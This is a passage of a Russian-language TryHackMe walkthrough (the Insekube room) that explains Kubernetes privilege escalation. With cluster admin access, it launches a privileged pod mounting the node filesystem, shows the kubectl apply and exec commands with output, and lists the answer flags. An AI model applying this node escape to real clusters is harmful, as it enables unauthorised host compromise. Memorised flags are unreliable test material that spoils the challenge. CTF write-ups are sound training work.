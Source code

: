 ```commandline
flag{288232b2f03b1ec422c5dae50f14061f}
```

## Задание 7
Теперь вы можете закрыть оболочку модуля Grafana и продолжить использование первой, так как она более стабильна.

Имея доступ администратора к кластеру, вы можете создавать любые ресурсы, которые захотите. В этой статье 
объясняется, как получить доступ к узлам Kubernetes, запустив pod, который монтирует файловую систему узла.

Вы можете создать «плохой» pod на основе их первого примера случая . Вам понадобится небольшая модификация, 
поскольку у виртуальной машины нет подключения к Интернету, поэтому она не может извлечь ubuntuобраз контейнера. 
Образ доступен в локальном реестре docker minikube, поэтому вам просто нужно указать Kubernetes использовать 
локальную версию вместо ее извлечения. Вы можете добиться этого, добавив  imagePullPolicy: Neverв свой «плохой» 
контейнер pod. После этого вы можете запустить  kubectl applyдля создания pod. Затем kubectl exec в новом pod вы 
обнаружите файловую систему узла, смонтированную на /host.

Инсекубэ
```commandline
challenge@syringe:/tmp$ ./kubectl apply -f privesc.yml --token=${TOKEN}
pod/everything-allowed-exec-pod created

challenge@syringe:/tmp$ ./kubectl get pods --token=${TOKEN}
NAME                          READY   STATUS    RESTARTS       AGE
everything-allowed-exec-pod   1/1     Running   0              61s
grafana-57454c95cb-v4nrk      1/1     Running   10 (18d ago)   41d
syringe-79b66d66d7-7mxhd      1/1     Running   1 (18d ago)    18d
Инсекубэ
challenge@syringe:/tmp$ ./kubectl exec -it everything-allowed-exec-pod --token=${TOKEN} -- /bin/bash
Unable to use a TTY - input is not a terminal or the right kind of file
hostname
minikube
```
Получите корневой флаг!

### Ответьте на вопросы ниже
Что такое root.txt?
```commandline
flag{30180a273e7da821a7fe4af22ffd1701}
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)